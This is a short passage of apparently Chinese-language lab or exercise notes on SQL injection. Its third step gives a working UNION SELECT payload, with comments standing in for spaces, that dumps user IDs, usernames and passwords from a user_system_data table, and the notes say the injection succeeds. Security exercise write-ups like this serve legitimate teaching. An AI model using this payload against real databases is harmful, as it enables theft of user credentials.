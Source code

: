 ![alt text](image-3.png)  

3. 使用下面的方式可以成功注入  
```
d'/**/union/**/select/**/userid,user_name,password,password,password,password,userid/**/from/**/user_system_data;--/**/
```  
![alt text](image-4.png)  

# 10  

和第九页一样的要求  
